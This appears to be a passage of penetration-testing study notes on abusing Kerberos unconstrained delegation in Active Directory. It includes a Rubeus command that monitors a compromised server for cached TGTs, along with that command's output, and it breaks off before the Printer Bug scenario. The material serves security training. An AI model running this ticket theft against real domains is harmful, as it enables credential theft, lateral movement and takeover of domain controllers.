 # Unconstrained Delegation in Computers Account
`Unconstrained delegation` was the only type of delegation available in Windows 2000. If a user requests a service ticket on a server with unconstrained delegation enabled, the user's Ticket Granting Ticket (TGT) is embedded into the service ticket that is then presented to the server.

The server can cache this ticket in memory and then pretend to be that user for subsequent resource requests in the domain. If unconstrained delegation is not enabled, only the user's Ticket Granting Service (TGS) ticket will be stored in memory. In this case, if the machine is compromised, an attacker could only access the resource specified in the TGS ticket in that user's context.

![[Z Assets/Images/c774325c033e6f50ae9af25de0109b1b_MD5.webp]]

We will walk through two attack scenarios:

- Waiting for a privileged user to authenticate
- Leveraging the Printer Bug

---

## Waiting for Privileged User Authentication

If we are able to compromise a server that has unconstrained delegation enabled, and a Domain Administrator subsequently logs in, we will be able to extract their TGT and use it to move laterally and compromise other machines, including Domain Controllers.

[Rubeus](https://github.com/GhostPack/Rubeus) is the go-to tool for this attack. As a local administrator, Rubeus can be run to monitor stored tickets. If a TGT is found within a TGS ticket, Rubeus will display it to us.

#### Monitor Stored Tickets with Rubeus
```powershell
PS C:\Tools> .\Rubeus.exe monitor /interval:5 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Monitoring
[*] Monitoring every 5 seconds for new TGTs
```

A few moments later, `Sarah Lafferty` connects to the compromised server. Rubeus retrieves Sarah's copy of the TGT that was embedded in her TGS ticket and displays it to us encoded in base64.

#### Monitor Stored Tickets with Rubeus
```powershell-session
PS C:\Tools> .\Rubeus.exe monitor /interval:5 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Monitoring
[*] Monitoring every 5 seconds for new TGTs

```